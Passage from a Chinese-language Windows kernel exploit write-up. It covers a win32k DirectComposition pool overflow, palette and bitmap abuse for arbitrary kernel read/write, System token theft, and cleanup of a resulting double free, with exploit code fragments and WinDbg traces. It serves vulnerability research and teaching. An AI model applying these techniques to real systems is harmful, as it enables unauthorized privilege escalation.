if ( v7 )//若v7不为0
v6 = v3 - v7;//正常返回
else//若v7为0
LABEL_16:
v8 = -2147024809;//返回错误NTSTATUS
这样，我们只需要修改databuf，增加一个\x00就可以不让kernel object free掉了，接下来我们需要考虑控制palette的内核空间，因为我们后面会直接用可控的szBuf对这个池空间进行覆盖，势必会覆盖到所有内容，如果palette的某些关键结构被覆盖，则会导致其他的crash的发生。
当然这里我们最主要控制的是palette->pEntries，通过覆盖它就可以通过SetPaletteEntries来对pEntries指向的空间进行写入，而如果这个pEntries指向ManagerBitmap的kernel object，我们就可以通过SetPaletteEntries修改ManageBitmap的pvScan0，令它指向WorkerBitmap的pvScan0。

由于我们要用到SetPaletteEntries，所以我直接动态调试，并跟踪了这个函数。
__int64 __fastcall GreSetPaletteEntries(HPALETTE a1, unsigned __int32 a2, unsigned __int32 a3, const struct tagPALETTEENTRY *a4)
{
v4 = a4;
v5 = a3;
v6 = a2;
v7 = 0;
EPALOBJ::EPALOBJ((EPALOBJ *)&v13, a1);
v8 = v13;
if ( v13 )
{
v14 = *(_QWORD *)ghsemPalette;
GreAcquireSemaphore();
v7 = XEPALOBJ::ulSetEntries((XEPALOBJ *)&v13, v6, v5, v4);
在跟踪的过程中，我找到了几处位置，在我通过szBuf覆盖的时候，需要注意这几处位置，不能随意修改其中的值，否则会导致SetPaletteEntries失败。
//第一处是
_QWORD *__fastcall EPALOBJ::EPALOBJ(_QWORD *a1, __int64 a2)
{
__int64 v2; // rax@1
_QWORD *v3; // rbx@1
__int64 v4; // rax@1
*a1 = 0i64;
v2 = a2;
v3 = a1;
LOBYTE(a2) = 8;
LODWORD(v4) = HmgShareLockCheck(v2, a2);//这里会check句柄
*v3 = v4;
return v3;
}
//第二处是
v7 = XEPALOBJ::ulSetEntries((XEPALOBJ *)&v13, v6, v5, v4);//检查+0x48 +0x50两个值
//第三处是+0x28位置会有一个跳转
kd> p
win32kfull!GreSetPaletteEntries+0x72://check rbx+0x28 这个值是HDC，获取HDC的值，如果为0，则没有HDC，否则则有HDC，就可以绕过了，很简单，只需要申请一个hdc即可
ffff915c`473f35f2 488b7b28 mov rdi,qword ptr [rbx+28h]
kd> r rdi
rdi=ffff911680003000
kd> p
win32kfull!GreSetPaletteEntries+0x76:
ffff915c`473f35f6 4885ff test rdi,rdi
kd> r rdi
rdi=ffff9116801cad00
kd> p
win32kfull!GreSetPaletteEntries+0x79:
ffff915c`473f35f9 7477 je win32kfull!GreSetPaletteEntries+0xf2 (ffff915c`473f3672)
这样我对szBuf重新布局，当然，我们必须在szBuf中加入\x00，确保StringCbLengthW函数可以成功。
//对szBuf重新布局
CopyMemory((PUCHAR)pMappedAddress1 + 0x10, sfBuf, sizeof(sfBuf));
//make fake struct
CopyMemory((PUCHAR)pMappedAddress1 + 0x10, &hPLP,0x4);
CopyMemory((PUCHAR)pMappedAddress1 + 0x10 + 0x14, &lpFakeLenth, 0x4);
CopyMemory((PUCHAR)pMappedAddress1 + 0x10 + 0x28, &hDC, 0x4);
CopyMemory((PUCHAR)pMappedAddress1 + 0x10 + 0x48, &lpFakeSetEntries, sizeof(LPVOID));
CopyMemory((PUCHAR)pMappedAddress1 + 0x10 + 0x50, &lpFakeSetEntries, sizeof(LPVOID));
CopyMemory((PUCHAR)pMappedAddress1 + 0x10 + 0x78, &ManagerBitmap.pBitmap, sizeof(LPVOID));
CopyMemory((PUCHAR)pMappedAddress1 + 0x10 + 0x80, &pAcceleratorTableA, sizeof(LPVOID));
CopyMemory((PUCHAR)pMappedAddress1 + 0x10 + 0x88, &lpFakeValidate, sizeof(LPVOID));
OK，当然我们\x00的位置也不要太靠后了，正常覆盖到palette的pEntries的位置就可以了，这样我们可以令StringCbLengthW函数正常返回，并且正常填充palette内核对象。
//step 1
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d726:
ffff8aae`1923d4e6 e849b30300 call win32kbase!StringCbLengthW (ffff8aae`19278834)
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d72b:
ffff8aae`1923d4eb 85c0 test eax,eax
//***********StringCbLengthW函数返回成功
kd> r eax
eax=0
//step 2
//*********Copy DataBuf
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d73e:
ffff8aae`1923d4fe e8b5b20300 call win32kbase!StringCbCopyW (ffff8aae`192787b8)
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d743:
ffff8aae`1923d503 85c0 test eax,eax
kd> dd ffff8ace81fa9310
ffff8ace`81fa9310 3a080b88 0e5fc03a 8b6e2606 e583bcb7
ffff8ace`81fa9320 3f20a031 01010101 3042e350 2d0491ed
ffff8ace`81fa9330 156847e5 8b0a18ad 3f010b70 a307418e
ffff8ace`81fa9340 75242394 d51c4f60 33749cc6 4a68c5ef
ffff8ace`81fa9350 75242394 d51c4f60 81fa9340 ffff8ace
ffff8ace`81fa9360 81fa9340 ffff8ace 33749cc6 4a68c5ef
ffff8ace`81fa9370 75242394 d51c4f60 33749cc6 4a68c5ef
ffff8ace`81fa9380 75242394 d51c4f60
ffff8ace`81fa9388 82017000 ffff8ace//pEntries change to ManageBitmap!!
一旦我们成功控制了pEntries，就可以通过pEntries来实现对bitmap的pvScan0的控制了，这样，我们就可以通过控制ManagerBitmap的pvScan0，让它指向WorkerBitmap的pvScan0来实现内核空间的任意地址读写。也就是GetBitmapBits/SetBitmapBits，关于Bitmap这个方法，依然可以参考Nicolas Economous的slide。最后我们直接读取System的Token，来替换当前进程的Token完成提权。
PROCESS ffffb0083dead040
SessionId: none Cid: 0004 Peb: 00000000 ParentCid: 0000
DirBase: 001aa000 ObjectTable: ffff9b0a006032c0 HandleCount: <Data Not Accessible>
Image: System
PROCESS ffffb0084103c800
SessionId: 1 Cid: 1794 Peb: 6d54989000 ParentCid: 13d0
DirBase: 22f52a000 ObjectTable: ffff9b0a06c88840 HandleCount: <Data Not Accessible>
Image: _dark_composition_.exe
//System Token替换了Current Process Token
kd> dd ffffb0083dead040+358 l2
ffffb008`3dead398 006158a8 ffff9b0a 00000000 00000000
kd> dd ffffb0084103c800+358 l2
ffffb008`4103cb58 006158a8 ffff9b0a 0000a93a 00000000

如图，我们完成了提权，但是在进程退出的时候报错了。这是困扰我最久的问题，我经过了各种各样的尝试，多次请教了邱神相关的问题，最后终于解决了这个大Boss。

其实错误有很多，首先我们对palette的覆盖，导致了palette在释放的时候产生了问题，不过既然我们此时已经拥有了任意内核地址的读写能力，我们直接对palette的内核空间做fix，将databuf覆盖的部分修改过来（置NULL）就可以了。也就是clear kernel object。
PVOID pPLPNULL = NULL;
for (int i = 1; i <= 14; i++)//除了palettek开头4字节句柄之外，其他szBuff部分置NULL
{
BitmapArbitraryWrite(ManagerBitmap.hBitmap, WorkerBitmap.hBitmap, (PUCHAR)pAcceleratorTableA + 0x8*i, pPLPNULL, sizeof(LPVOID));
}
DeleteObject(hPLP);
之后调用DeletePalette释放掉palette的句柄，但是随后会产生一个double free的漏洞，这是由于我们最后用来控制palette内核对象的databuf的hResource和palette用的是同一个内核空间，这样如果我们先用DeletePalette释放内核空间后，该空间释放后处于一个free状态。
//***********palette前4个字节存放palette句柄
kd> dd ffff8ace81fa9310 l1
ffff8ace`81fa9310 08080b80
kd> p
0033:00007ff7`d64f20e1 c3 ret
kd> p
0033:00007ff7`d64f2000 498bcc mov rcx,r12
//**********调用DeletePalette
kd> p
0033:00007ff7`d64f2003 ff150fc00000 call qword ptr [00007ff7`d64fe018]
//**********DeletePalette的对象是palette句柄，这次是真正释放palette了
kd> r rcx
rcx=0000000008080b80
kd> p
0033:00007ff7`d64f2009 4c8bb42488020000 mov r14,qword ptr [rsp+288h]
kd> !pool ffff8ace81fa9310
Pool page ffff8ace81fa9310 region is Paged session pool
//**********我们通过任意地址写修改kernel object之后顺利释放palette，内核对象处于free状态
*ffff8ace81fa9300 size: 100 previous size: 70 (Free ) *DCdn
Pooltag DCdn : DCOMPOSITIONTAG_DEBUGINFO, Binary : win32kbase!DirectComposition::C
ffff8ace81fa9400 size: 100 previous size: 100 (Free ) DCvi
这时候进程退出时，是会将句柄表清空，句柄表对应的内核对象的池也会free掉，之前我们DeletePalette时会将hPalette移除，同时free掉内核空间，但是free hresource的时候，由于之前已经释放掉了池，导致了double free的发生。

因此，我们需要对句柄表进行一个fix，我们将hresource在句柄表中移除，移除后在进程退出时，就不会再去释放hresource对应的内核空间了。接下来，我们就要在句柄表里找到resource句柄的位置。要找到hresource的位置我们首先要找到channel的位置，我们需要从EPROCESS结构一层层找进去。当然，此时我们已经拥有了任意地址读写的能力，去读取内核空间的地址中存放的值也不成问题，只需要根据偏移找到对应的值就可以了。
//step 1
//******EPROCESS里有一个Win32Process结构，这实际上是一个tagProcessInfo
kd> dt _EPROCESS Win32Process
nt!_EPROCESS
+0x3a8 Win32Process : Void
//step 2
//**************tagPROCESSINFO里的tagTHREADINFO结构
typedef struct _tagPROCESSINFO // 55 elements, 0x300 bytes (sizeof)
{
……
/*0x100*/ struct _tagTHREADINFO* ptiList;
……
}tagPROCESSINFO, *PtagPROCESSINFO;
//step3
//**********接下来找到handle table的入口，接下来找到channel的句柄值
kd> dq ffff8ace81fb5fc0+28 l2
ffff8ace`81fb5fe8 00000000`00000015//句柄
ffff8ace`81fb5ff0 ffff8ace`81f2f8b0//Channel的内核对象
在handle table中的channel中，＋0x28先存放的是句柄，然后＋0x30存放的是Channel的内核对象值，接下来我们进入到channel中找到resource table的存放位置，然后根据句柄＊找到hresource，将其清零即可。当然，我们拥有任意地址读写的能力，只需要找到之后，将其置为NULL就可以了。
//step 1
//************找到resource table的位置
kd> dq ffff8ace`81f2f8b0+40 l1
ffff8ace`81f2f8f0 ffff8ace`81fa32a0
//************找到handle的大小
kd> dq ffff8ace`81f2f8b0+60 l1
ffff8ace`81f2f910 00000000`00000008
//resource table加上句柄大小与句柄值成积，找到hresource的位置
kd> dd ffff8ace`81fa32a0
ffff8ace`81fa32a0 00000000 00000000 00000000 00000000
ffff8ace`81fa32b0 00000000 00000000 81f6b450 ffff8ace//hresource
//step 2
//**********将hResource置为NULL
kd> p
0033:00007ff6`5ed01678 ff1582d90000 call qword ptr [00007ff6`5ed0f000]
kd> p
0033:00007ff6`5ed0167e eb11 jmp 00007ff6`5ed01691
kd> dd ffff8ace`81fa32a0
ffff8ace`81fa32a0 00000000 00000000 00000000 00000000
ffff8ace`81fa32b0 00000000 00000000 00000000 00000000
最后，果然进程退出时不会再产生crash，我们最终完成了一个完整的利用。

Pool FengShui是非常有意思的过程，和Heap Fengshui一样，如何对内核空间进行精巧的布局是内核安全的大佬们喜欢研究的东西，在我开始学内核漏洞的时候，感觉相关的文章不多，随着Hacksys的HEVD这个训练驱动，可以看到相关的paper越来越多了，非常感谢撰写文章的大佬们，令我受益良多。感谢邱神的指点，大米的交流讨论，感觉这几个月进步了很多。
其实内核里还有非常非常多有意思的东西等待被挖掘，Ring0不同Ring3，它拥有更复杂更广阔的内容，同样久有着无限的可能，期待自己更多的努力，更多的进步，也欢迎小伙伴们一起交流进步，感谢阅读！！
https://github.com/progmboy/cansecwest2017
https://msdn.microsoft.com/en-us/library/windows/desktop/hh437371(v=vs.85).aspx
https://www.coresecurity.com/system/files/publications/2016/10/Abusing-GDI-Reloaded-ekoparty-2016_0.pdf
https://siberas.de/blog/2017/10/05/exploitation_case_study_wild_pool_overflow_CVE-2016-3309_reloaded.html